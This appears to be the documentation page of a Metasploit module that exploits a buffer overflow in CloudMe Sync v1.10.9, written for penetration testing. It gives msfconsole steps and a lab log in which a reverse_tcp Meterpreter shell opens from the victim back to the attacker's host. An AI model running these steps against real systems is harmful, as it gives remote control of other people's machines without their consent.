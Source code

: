 ## Description
This module exploits a buffer overflow vulnerability in [CloudMe Sync v1.10.9](https://www.cloudme.com/downloads/CloudMe_1109.exe).

## Verification Steps
  1. Install CloudMe for Desktop version `v1.10.9`
  2. Start the applicaton (you don't need to create an account)
  3. Start `msfconsole`
  4. Do `use exploit/windows/misc/cloudme_sync`
  5. Do `set RHOST ip`
  6. Do `set LHOST ip`
  7. Do `exploit`
  8. Verify the Meterpreter session is opened

## Scenarios

### CloudMe Sync client application on Windows 7 SP1 x86

```
msf > use exploit/windows/misc/cloudme_sync 
msf exploit(windows/misc/cloudme_sync) > set RHOST 172.16.40.148
RHOST => 172.16.40.148
msf exploit(windows/misc/cloudme_sync) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/misc/cloudme_sync) > set LHOST 172.16.40.5 
LHOST => 172.16.40.5
msf exploit(windows/misc/cloudme_sync) > exploit 

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Sending stage (179779 bytes) to 172.16.40.148
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.148:57185) at 2018-02-19 12:35:21 +0000

meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```
